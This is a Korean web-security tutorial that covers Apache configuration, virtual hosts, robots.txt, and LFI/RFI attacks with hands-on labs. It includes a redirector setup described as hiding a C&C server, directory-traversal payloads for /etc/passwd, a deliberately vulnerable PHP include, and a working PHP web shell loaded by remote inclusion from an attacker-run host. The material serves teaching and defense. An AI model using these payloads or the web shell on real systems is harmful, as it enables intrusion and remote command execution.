

## 개요

이 문서에서는 Apache 웹 서버의 주요 설정과 Virtual Host 구성, Proxy/Redirector 서버를 통한 C&C 서버 은닉 기법, robots.txt를 통한 크롤링 제어, 그리고 LFI(Local File Inclusion)와 RFI(Remote File Inclusion) 웹 취약점에 대해 다룹니다.

## Apache 웹 서버 설정

### 주요 디렉토리

| 경로 | 설명 |
|------|------|
| `/var/www` | 웹페이지 콘텐츠 메인 디렉토리 위치 |
| `/etc/httpd/conf` | 주 설정파일 위치 |
| `/etc/httpd/conf.d` | 추가 설정파일 위치 |
| `/etc/httpd/conf.modules.d` | 웹서버와 함께 설치된 모듈설정 관련 파일 위치 |
| `/usr/share/httpd` | 텍스트, 에러페이지 등 기본 콘텐츠 위치 |
| `/usr/share/doc/httpd` | 웹 서버 관련 문서파일 위치 |

### 주요 설정 디렉토리

| 구분 | 내용 |
|------|------|
| **conf** | 웹 서버의 주요 설정 파일인 httpd.conf, MIME 형식을 지정하기 위한 파일인 magic 파일이 있는 곳 |
| **conf.d** | 아파치의 추요설정을 분리 해서 저장 하는 곳, httpd.conf 파일내용을 분리하여 이곳에 저장하면, httpd.conf 파일에서 들러와서 사용하게 된다.<br/>httpd.conf 파일 맨 마지막에 'IncludeOptional conf.d/*.conf' 구문이 있다. |
| **conf.modules.d** | 모듈들이 들어있는 디렉토리 (tomcat 과 연동하기 위한 설정 시 mod_jk.conf 파일 넣는 곳) |
| **log** | 로그파일이 저장 되는 디렉토리 |
| **modules** | 아파치 모듈 설치 디렉토리 |

### httpd.conf 주요 설정

**웹 문서 경로 (DocumentRoot):**
```apache
DocumentRoot "/var/www/html"
```

경로에 있는 문서를 웹 화면에 뿌려줍니다.

**주요 설정 항목:**

| 번호 | 설정 내용 | 설명 |
|------|----------|------|
| **31번줄** | ServerRoot "/etc/httpd" | 아파치가 동작하기 위해 필요한 웹 서버 설정파일, 로그파일, 바이너리 파일 위치가 있는 기본 디렉토리의 위치 <br/>(ServerRoot = 아파치 대본이 설치된 위치 = 서버 설정의 최상위 디렉토리) |
| **41/42번줄** | #Listen 12.34.56.78:80<br/>Listen 80 | 아파치 서버를 특정 IP 주소에 포트에 대해서 연결할 수 있도록 설정 |
| **54번줄** | # LoadModule foo_module<br/>modules/mod_foo.so | 모듈선언 [모듈설명] [모듈위치] => /etc/httpd/modules/mod_foo.so |
| **56번줄** | Include conf.modules.d/*.conf | 모듈파일을 httpd.conf 파일에 포함하라는 의미<br/>(모듈 모듈은 .so로 끝난다) |
| **66/67번줄** | User apache<br/>Group apache | 실행되는 아파치의 사용자(그룹)권한을 설정하는 항목 |
| **86번줄** | ServerAdmin root@localhost | 관리자 e-mail 주소를 적어두는 항목<br/>웹 문서 로딩 시 메타기 발생했을 경우 에 에러 페이지에 보여질 관리자 e-mail 주소를 알려준다 |
| **95번줄** | #ServerName www.example.com:80 | DNS에서 설정된 도메인 중 일반적으로 사용할 것으로 등록시켜 보내는 것이 되는 것이다 예) ServerName www.kgitbank.com:80 (주석 처리 안하면 함) |
| **102~105번줄** | 최상위 Directory에 대한 기본 등석과 권한을 나타내는 설정<br/>AllowOverride : 어떻게 접근을 허용할 것인지에 대한 설정<br/>  #AllowOverride None (모듈적용) (디렉터리별로 별개의 파일을 만들어 접근권한을 설정할 수 있는 음선)<br/>  #AllowOverride all (재정의하기= 덮어스기)<br/>Require all denied : 디렉터리 아하 주조건 접근 금지 (모든 요청 거부) |
| **122번줄** | #DocumentRoot "/var/www/html" | 웹 문서가 들어있는 기본 경로<br/>실물터 링크 파일이나 alias로 다른 경로를 가리키도록 설정할 수 있다<br/>예) DocumentRoot "/home/subpage/html" |
| **127~131번줄** | **/var/www** Directory에 대한 기본 등성과 권한을 나타내는 설정<br/>• AllowOverride : 어떻게 접근을 허용할 것인지에 대한 설정<br/>  #AllowOverride None (모듈적용) (디렉터리별로 별개의 파일을 만들어 접근권한을 설정할 수 있는 음선)<br/>  #AllowOverride all (재정의하기= 덮어쓰기)<br/>• Require all granted : 디렉터리 아하 추조건 허용 |
| **134~160번줄** | **/var/www/html** Directory에 대한 기본 등성과 권한을 나타내는 설정<br/>• Options : 지정한 디렉터리 하위에 모든 파일과 디렉터리에 적용할 접근제어 설정<br/>147번 : Options Indexes FollowSymLinks |
| **167번줄** | DirectoryIndex index.html | - 웹 사이트의 초기(기본)페이지 문자열 여러 페이지를 지정이, - 적혀진 순서대로 읽어 들이며, 적혀진 순서대로 파일들이 읽어짐과 Options 지시자의 Indexes를 따라감<br/>- 적용 우선순위 : 1.index.html 2.index.html.var 3.indexes |

**147번줄 - Indexes:**
- Indexes는 URL을 지정한 디렉터리의 index.html과 같은 파일이 없을 경우 해당 디렉터리 파일의 목록을 보여줌
- FollowSymLinks: 디렉터리내에서 심볼릭 링크의 사용을 허가함 (심볼릭 링크를 따라 이동 할 수 있도록 지정)

**URL (Uniform Resolution Locator, 자원 위치 지정자):**

### ServerTokens

서버 HTTP 응답 헤더를 설정, 오류 및 서버 메시지에 출력되는 서버에 대한 정보 설정합니다.

**사용 방법:**
```
ServerTokens 값
ServerSignature On
```

| 구분 | 내용 |
|------|------|
| **Full** | 아파치 서버 버전, 운영체제 정보, 모듈 정보 |
| **OS** | 아파치 서버 버전, 운영체제 정보만 |
| **Major** | 아파치 서버 주 버전 |
| **Min** | 아파치 서버 모든 버전 |
| **Minor** | 아파치 서버 하위 버전 |
| **Prod** | 아파치 서버 버전 |

## Virtual Host 설정

### 가상 호스트란?

하나의 IP 주소만으로 여러 도메인을 등록하여 사용하는 기술입니다.

**동작 원리:**
- Virtual Host에 ServerName을 각각 설정합니다
- 클라이언트 요청의 Host 헤더를 참조하여 일치하는 블록을 찾습니다
- 일치하는 블록의 설정이 적용됩니다

### httpd.conf 설정

**Directory 접근 권한 추가:**
```apache
<Directory "/var/www/html/htdocs-ww1">
    Options Indexes FollowSymLinks
    AllowOverride None
    Require all granted
</Directory>

<Directory "/var/www/html/htdocs-ww2">
    Options Indexes FollowSymLinks
    AllowOverride None
    Require all granted
</Directory>
```

**Include 추가:**
```apache
IncludeOptional conf.d/*.conf
Include /etc/httpd/conf/vhost.conf
```

### vhost.conf 설정

```apache
<VirtualHost *:80>
    DocumentRoot /var/www/html/htdocs-ww1
    ServerName isec1.com
    ServerAlias www.isec1.com
    ServerAdmin ygchoi@google.com
    CustomLog logs/isec1.access.log common
    ErrorLog logs/isec1.error.log
</VirtualHost>

<VirtualHost *:80>
    DocumentRoot /var/www/html/htdocs-ww2
    Servername isec2.com
    ServerAlias www.isec2.com
    ServerAdmin ygchoi@google.com
    CustomLog logs/isec2.access.log common
    ErrorLog logs/isec2.error.log
</VirtualHost>
```

**필수 항목:**
- DocumentRoot
- ServerName

**선택 항목:**
- ServerAlias
- ServerAdmin
- ErrorLog

**Virtual Host 설정 확인:**
```bash
httpd -S
httpd -t  # 문법 확인
```

### IP 주소 직접 접근 차단

IP 주소로 직접 접근 시 에러 페이지로 리다이렉트하는 설정:

**vhost.conf에 추가:**
```apache
<VirtualHost *:80>
    DocumentRoot /var/www/html/ipaccess
    ServerName 192.168.10.128
</VirtualHost>
```

**httpd.conf에 디렉토리 권한 추가:**
```apache
<Directory "/var/www/html/ipaccess">
    Options Indexes FollowSymLinks
    AllowOverride None
    Require all granted
</Directory>
```

**에러 페이지 생성:**
```bash
mkdir /var/www/html/ipaccess
echo "Not Found" > /var/www/html/ipaccess/index.html
systemctl restart httpd.service
```

## Proxy와 Redirector 서버

### Redirector 원리 (C&C 서버 은닉)



클라이언트는 Redirector와의 통신으로 생각하지만, 실제로는 Web Server(C&C)가 서비스를 제공합니다.

**동작 흐름:**
1. 클라이언트는 HTTP 요청을 Redirector로 보냅니다
2. Redirector는 HTTP 요청을 받으면 Web Server로 redirect 시킵니다
3. Web Server(C&C)는 자신을 노출시키지 않고 서비스 가능합니다

### 실습: Redirector 설정

**웹서버 설정 (C&C 서버):**
```bash
# 웹서버 설치
yum -y install httpd*
systemctl restart httpd
firewall-cmd --add-service=http --permanent
firewall-cmd --reload
```

**Redirector 설정 (프록시 역할):**
```bash
# 포트 포워딩 설정
firewall-cmd --permanent --zone=public \
  --add-forward-port=port=80:proto=tcp:toport=8080:toaddr=192.168.10.128

# masquerade 설정 (NAT)
firewall-cmd --add-masquerade
firewall-cmd --reload
```

masquerade는 NAT의 한 형태로, 내부 네트워크의 사설 IP 주소를 외부에 공개되지 않도록 하는 역할을 합니다.

## robots.txt

### robots.txt란?

웹사이트 소유자가 웹 크롤러(봇)에게 특정 페이지나 파일을 요청할 수 있는지 지침을 제공하는 텍스트 파일입니다.

**로봇 배제 표준 (REP, Robots Exclusion Protocol):**
- 웹사이트가 웹 크롤러와 통신할 때 사용하는 표준입니다
- 최상위 디렉토리(root directory)에 위치해야 합니다

### robots.txt 효과

**크롤러 동작:**
1. 검색 엔진이 웹을 크롤링하여 콘텐츠를 색인할 때 가장 먼저 robots.txt 파일을 찾습니다
2. 이 파일은 어떤 부분을 크롤링/색인해야 하는지, 어떤 부분을 무시해야 하는지 알려줍니다

**효과:**
- **서버 부하 감소:** 불필요한 페이지 크롤링 방지
- **비공개 정보 보호:** 특정 페이지가 검색 엔진에 색인되지 않도록 방지
- **크롤링 효율성:** 중요한 페이지에 대한 접근 허용, 덜 중요한 페이지 크롤링 방지

### robots.txt 문법

**기본 구조:**
```
User-agent: *
Disallow:
```

**샘플:**
```
User-agent: *
Disallow: /
Allow: /.well-known/privacy-sandbox-attestations.json

User-agent: GoogleOther
Disallow: /
Allow: /$
Allow: /ads.txt

Sitemap: https://www.example.com/sitemap.xml
```

**구문 설명:**

| 구문 | 설명 |
|------|------|
| `User-agent: *` | 모든 웹 크롤러에 적용 (* 는 와일드카드) |
| `User-agent: GoogleOther` | 특정 크롤러를 지정 (구글의 기타 크롤러) |
| `Disallow:` | 특정 경로에 대한 크롤링을 금지 |
| `Allow: /` | 웹사이트의 모든 페이지 크롤링 허용<br/>(/ 는 루트 디렉토리) |
| `Allow: /$` | 정확히 루트 디렉토리만 허용<br/>($ 는 정확히 이 경로를 의미) |
| `Sitemap:` | 사이트맵 파일의 위치를 알려줌<br/>(크롤러가 웹사이트 구조를 쉽게 파악) |

## 웹 취약점: LFI와 RFI

### LFI (Local File Inclusion) 공격

LFI 취약점이 있는 웹 애플리케이션은 사용자로부터 입력받은 경로를 그대로 사용하여 파일을 포함할 수 있습니다.

**취약점 예시:**
```php
<?php
    $file = $_GET['page'];
    include($file);
?>
```

**공격 방법:**
```
localhost/?page=/etc/passwd
localhost/?page=../../../etc/passwd
```

**가능성 있는 피해:**
- 민감한 정보 유출: /etc/passwd, 로그 파일, 소스 코드 등
- 로그 파일, 소스 코드 등의 민감한 정보를 읽어올 수 있습니다
- 코드 주입 또는 require() 같은 PHP 함수를 사용하는 경우, 공격자가 이를 악용하여 원격 코드를 실행(RCE)할 수 있습니다

**공격 특성:**
- LFI를 통해 서버의 민감한 정보가 존재하며, 공격자가 이를 악용하여 서버에 존재하는 민감한 파일을 읽을 수 있습니다

**LFI 취약 환경:**
- 사용자 입력에 포함된 디렉터리 트래버설(예: ../, ../../)이나 예상치 못한 파일명을 필터링하지 않는 경우
- 화이트리스트 사용: 포함 가능한 파일을 미리 정의된 목록으로 제한하는 것이 좋습니다
- 에러 메시지 제한: 파일 포함 관련 에러 메시지를 최소화하여 공격자에게 정보를 제공하지 않도록 합니다

### 디렉터리 트래버설 (Directory Traversal) 공격

디렉터리 트래버설 공격은 웹 애플리케이션의 파일 시스템 경로에 대한 사용자 입력을 제대로 검증하지 않아 공격자가 서버의 디렉터리 구조를 탐색하거나 파일에 접근하는 경우를 의미합니다.

**공격 특성:**
- 공격자는 ../ (상위 부모 디렉터리로 이동) 시퀀스를 사용하여 서버의 의도치 않은 파일에 접근하거나 디렉터리 구조를 탐색할 수 있습니다

**공격 취약 환경:**
- 경로 내비게이션 문자열을 제대로 필터링하지 않은 경우를 취약합니다

**LFI vs Directory Traversal:**
- 공통점: 두 공격 모두 파일 시스템에 대한 불법적 접근을 시도하며, 사용자 입력을 검증하지 않는 점을 악용합니다
- 차이점: LFI는 주로 특정 파일의 포함(inclusion)을 통해 정보를 획득하거나 코드를 실행하는 데 초점을 맞추고, 디렉터리 트래버설은 주로 디렉터리 구조를 이동하여 파일 시스템을 탐색하고 민감한 파일에 접근하는 데 초점을 맞춥니다

### RFI (Remote File Inclusion) 공격

RFI는 웹 애플리케이션이 외부 URL로부터 파일을 포함할 수 있는 기능을 제공할 때, 공격자가 자신의 서버에 호스팅한 악성 스크립트를 포함시켜 원격에서 코드를 실행할 수 있는 공격입니다.

**취약점 대상:**
- RFI 취약점은 PHP 설정에서 allow_url_include가 On인 경우 발생할 수 있습니다

**공격 특성:**
- 공격자는 RFI를 통해 서버에 PHP 코드 주입을 통해 웹적 코드를 실행할(RCE) 수 있습니다

**RFI 취약 환경:**
- allow_url_include 비활성화: PHP 설정에서 `allow_url_include`을 Off로 설정하여 외부 URL로부터의 파일 포함에서 사용한다면 RFI 공격에 취약할 수 있습니다
- 파일 포함 경로 제한: 파일 포함을 반드시 로컬 디렉터리 내에서만 하도록 제한합니다
- 입력 값 검증: 파일 이름에 URL을 포함하는 등의 공격을 막기 위해 입력값을 검증해야 합니다

**LFI와 RFI 공격을 방어하기 위해서는 입력 값에 대한 철저한 검증, 서버 설정의 안전성, 그리고 애플리케이션의 코드 안전성 확보가 중요합니다.**

### 실습: LFI 공격

**취약한 PHP 코드 작성:**
```php
<?php
    $file = $_GET['page'];
    include($file);
?>
```

**공격:**
```
localhost/?page=lfi.php
localhost/?page=/etc/passwd
localhost/?page=../../../../etc/passwd
```

### 실습: RFI 공격 (WebShell)

**의생차 서버 설정:**
```bash
vi /etc/php.ini
# 815 allow_url_include = On

systemctl restart httpd
```

**웹 설정:**
```php
<?php
    $file = $_GET['page'];
    include($file);
?>
```

**공격자 악의적인 서버 열기:**
```bash
python3 -m http.server 80
```

**mal.php (웹쉘) 작성:**
```php
<style>
  .tb { border: 1px solid black; }
  td { color: black; font-size: 16px; }
</style>

<?php
    $page = $_SERVER["REMOTE_SERVER"];
    $cmd = $_POST["cmd"];

    if(!empty($cmd)){
        $result = shell_exec($cmd);
        $result = str_replace("\n", "<br>", $result);
    }
?>

<form action="<?=$page?>" method="POST">
    <input type="text" name="cmd" value="<?=$cmd?>" >
    <input type="submit" value="EXECUTE">
</form>
<hr>

<table class="tb">
<tr> <td><?=$result?></td> </tr>
</table>
```

**공격:**
```
localhost?page=http://192.168.10.128/mal.php
```

웹쉘을 통해 서버에서 임의의 명령어를 실행할 수 있습니다.

## 마무리

이번 Part 3에서는 **Apache 웹 서버 설정과 파일 인클루전 취약점**을 종합적으로 학습했습니다. **Apache Virtual Host** 설정을 통해 하나의 서버에서 여러 도메인을 운영할 수 있으며, IP 기반과 이름 기반(Name-based) Virtual Host의 차이를 이해했습니다. httpd.conf와 httpd-vhosts.conf 파일에서 DocumentRoot, ServerName, ServerAlias를 정의하여 각 호스트별로 독립적인 웹 루트 디렉토리를 설정합니다.

**Directory 접근 제어**를 통해 특정 디렉토리의 접근 권한을 세밀하게 관리할 수 있습니다. `<Directory>` 지시자는 물리적 경로, `<Location>` 지시자는 URL 경로를 제어하며, `Options` 지시자(Indexes, FollowSymLinks, ExecCGI)와 `AllowOverride` 설정으로 디렉토리별 동작을 정의합니다. .htaccess 파일은 디렉토리 단위 설정을 가능하게 하지만 성능상 권장되지 않습니다.

**robots.txt**는 검색 엔진 크롤러의 접근을 제어하는 파일입니다. User-agent로 크롤러를 지정하고, Disallow로 접근 금지 경로를 명시하여 민감한 디렉토리(/admin, /backup)를 숨길 수 있습니다. 하지만 robots.txt는 권고 사항일 뿐 강제성이 없으므로, 진짜 보안이 필요한 경로는 인증과 권한 설정이 필수입니다.

**LFI**(Local File Inclusion) 취약점은 사용자 입력을 통해 서버의 로컬 파일을 포함시키는 공격입니다. `include($_GET['page'])`와 같은 코드에서 `page=../../etc/passwd`로 디렉토리 트래버설 공격을 수행하여 시스템 파일을 읽을 수 있습니다. 방어를 위해서는 화이트리스트 검증, basename() 함수 사용, realpath() 경로 정규화, 파일 확장자 제한이 필요합니다.

**RFI**(Remote File Inclusion) 취약점은 원격 서버의 파일을 포함시키는 공격입니다. `allow_url_include` 설정이 활성화된 경우 `page=http://attacker.com/mal.php`로 웹쉘을 실행하여 서버를 완전히 장악할 수 있습니다. 방어를 위해서는 php.ini에서 `allow_url_include = Off` 설정이 필수이며, 사용자 입력을 절대 파일 경로에 직접 사용하지 말아야 합니다.

웹 보안 Part 1~3을 마무리하며, HTTP 프로토콜 기초부터 보안 헤더, 쿠키/세션 관리, SSL/TLS 암호화, Apache 서버 설정, 파일 인클루전 취약점까지 **웹 애플리케이션 보안의 기본 원리**를 모두 학습했습니다. 

---
